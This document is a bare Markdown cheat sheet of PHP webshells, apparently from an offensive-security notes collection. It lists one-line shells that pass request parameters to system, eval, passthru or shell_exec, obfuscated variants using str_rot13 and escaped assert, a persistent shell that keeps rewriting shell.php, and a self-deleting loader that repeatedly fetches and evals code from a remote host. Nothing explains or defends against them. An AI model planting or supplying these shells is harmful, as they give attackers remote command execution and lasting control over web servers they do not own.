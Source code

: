 # Webshells

```php
<?php system($_GET["cmd"]); ?>
```

```php
<?php system($_GET[1]); ?>
```

```php
<?php system("`$_GET[1]`"); ?>
```

```php
<?= system($_GET[cmd]);
```

```php
<?php eval($_POST[cmd]);?>
```

```php
<?php echo `$_GET[1]`;
```

```php
<?php echo passthru($_GET['cmd']);
```

```php
<?php echo shell_exec($_GET['cmd']);
```

```php
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
```

```php
<script language="php">system("id"); </script>
```

```php
<?php $_GET['a']($_GET['b']); ?>
// a=system&b=ls
// a=assert&b=system("ls")
```

```php
<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
// .php?cmd=system("ls")
```

```php
<?@extract($_REQUEST);@die($f($c));?>
// .php?f=system&c=id
```

```php
<?php
    ignore_user_abort(true);
    set_time_limit(0);
    $file = 'shell.php';
    $code = '<?php eval($_POST[a]);?>';
    while(md5(file_get_contents($file)) !== md5($code)) {
        if(!file_exists($file)) {
            file_put_contents($file, $code);
        }
        usleep(50);
    }
?>
```

```php
<?php
    unlink(__FILE__);
    ignore_user_abort(true);
    set_time_limit(0);
    $remote_file = 'http://xxx/xxx.txt';
    while($code = file_get_contents($remote_file)){
        @eval($code);
        sleep(5);
    };
?>
```
